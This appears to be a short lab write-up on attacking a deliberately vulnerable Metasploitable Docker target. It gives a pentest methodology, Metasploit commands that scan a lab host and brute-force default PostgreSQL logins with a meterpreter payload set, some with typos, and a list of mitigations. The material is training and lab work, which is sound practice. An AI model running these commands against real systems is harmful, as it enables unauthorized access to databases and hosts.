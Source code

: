 # 07 - Metasploitable Docker 2
## Methodology 
1. Reconnaisance
    - OS Version
    - Port scanning
    - Network topology
    - services (versions, name)
    - active maschines
2. Basic actions
    - Known password testing
    - Known 
   - > If successful run RCE  
3. Research
    - search for knwon vulerabilities with a scanner
    - search on github issues
    - search on https://cve.mitre.org/cve/search_cve_list.html
    - search on 
## Attack

```
service postgresql start
msfdb init
msfconsole
db_nmap -A -p 0-10000 10.2.0.8
search auxiliary/scanner/postgres
use auxiliary/scanner/postgress/postgres_login
set RHOST 10.2.0.8
set PORT 8181
set payload linux/x86/meterpreter/bind_tcp
run
```

![](01.png)

## Mitigation
- Change PostgreSQL default Password
- Only allow local connections
- Deny access by firewall